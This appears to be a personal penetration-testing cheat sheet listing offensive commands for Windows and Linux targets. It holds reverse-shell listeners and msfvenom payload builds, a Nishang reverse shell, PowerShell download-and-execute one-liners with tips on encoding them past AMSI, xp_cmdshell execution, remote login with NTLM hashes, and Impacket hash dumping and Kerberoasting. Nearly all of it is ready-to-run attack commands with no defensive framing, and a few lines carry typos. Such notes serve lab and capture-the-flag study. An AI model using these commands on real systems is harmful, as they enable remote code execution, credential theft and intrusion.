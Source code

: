 # Remote Access
```
evil-winrm -i {IP} -u {username} -p {password/NTLM hash}

upload {local_filename} {destination_filename (optional)}
download {remote_filename} {destination_filename (optional)}
```
> evil win-rm
> only for windows pro or windows with RDP!!! >.<
> powershell commands can be executed

# Hosting Servers

## HTTP server
```
python3 -m http.server 80
```
> make sure to be in the directory of the server
> --directory can be used

## SMB server
```
sudo smbserver {share name} -username user -password password

net use \\{IP}\{share name} /user:user password

```
> -smb2support might be needed for some windows

## SMB 
```
smbclient -L //(IP)/{share name} 
get > download {filename}
get > uppload {filename}
smbclient -L //{IP}
```

# Reverse Shells

## Listening port
> port 1234, 4444
```
nc -lvnp 4444
rlwrap nc -lvnp 4444

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```
> rlwrap allows users to use previous commands 


## Msfvenom
>Take note anything with meterpreter is for msfconsole multihandler

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP} LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP} LPORT=4444 -f dll > reverse.dll
msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/shell/reverse_tcp LHOST={IP} LPORT=4444 -f dll > reverse.dll
```
> windows .exe & .dll

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f elf >reverse.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f elf >reverse.elf
```
> linux

## Nishang 
```
import-module Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp -Reverse -IPAddress {LHOST} -Port 4444
```

# Powershell 

## Downloading files
```
powershell.exe IEX (New-Object Net.WebClient).DownloadString("{IP/website url}")
```
> download and execute 
> you can encode using https://amsi.fail/ to bypass

```
IEX((New-Object Net.WebClient).DownloadString("{IP/website url}"))
```
> download
> you can encode using https://raikia.com/tool-powershell-encoder/ to bypass

```
powershell.exe -e 
```
> execute using powershell 
> e.g. powershell.exe -e (encoded stuff)


## check OS version
```
[Environment]::Is64BitProcess
(Get-WmiObject Win32_OperatingSystem).OSArchitecture
```
> checking OS architecture 


## MSSQL
```
enable_xp_cmdshell
EXEC xp+cmdshell '{command}'
```
> summons interactive shell / cmd for MSSQL


# Impacket

## Hash dump
```
secretsdump.py '{username}@{IP}'
```
> hash dump 

## Kerberoasting + hash via SPN
```
GetUserSPNs.py -request -{NETBIOSNAME}-ip {IP} {DOMAIN}/{NAME}:{PASSWORD}
```
> hash dump via keberoasting using SPN

## MS sql logon 
```
mssqlclient.py {username}@{IP}
```

